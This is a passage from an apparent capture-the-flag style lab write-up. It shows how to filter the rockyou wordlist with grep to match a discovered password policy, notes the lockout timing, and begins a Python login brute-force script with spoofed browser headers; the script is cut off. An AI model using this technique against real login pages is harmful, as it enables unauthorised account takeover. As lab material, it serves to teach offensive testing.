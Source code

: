 so now I can try to brute force the found accounts by modifying the rockyou list with our found password policy restrictions 

to filter the list we need to consider the following password criteria: 
- start with capital letter
- contain at least 1 lowercase 
- end with number 
- contain one of these special characters: `$ # @`
- be between 20 and 29 character length 

with this in mind I can do a basic filter with grep: 

`grep '^.\{20,29\}$' /usr/share/wordlists/rockyou.txt | grep '^[A-Z]' | grep '[[:lower:]]' | grep '[0-9]$' | grep '[$#@]'`

![](Images/Pasted%20image%2020240222152543.png)

then I test to find that after 6 failed logins you need to wait 30 seconds before trying again

![](Images/Pasted%20image%2020240222152448.png)

now I modify a new script to take in a list of usernames and passwords to brute force the logins:

```python
import sys
import requests
import os.path
import time

# define target url, change as needed
url = "http://94.237.48.205:33074/login.php"

# define a fake headers to present ourself as Chromium browser, change if needed
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Content-Type": "application/x-www-form-urlencoded",
    "Upgrade-Insecure-Requests": "1",
    "Sec-GPC": "1",
    "Cookie": "htb_sessid=NzEwZTVkMmQ2ZGI3ZTcwMzRlNmJlM2JhZGJhZGRmMzk%3D"
}

valid = "Welcome"

def do_req(url, user, message, headers):
```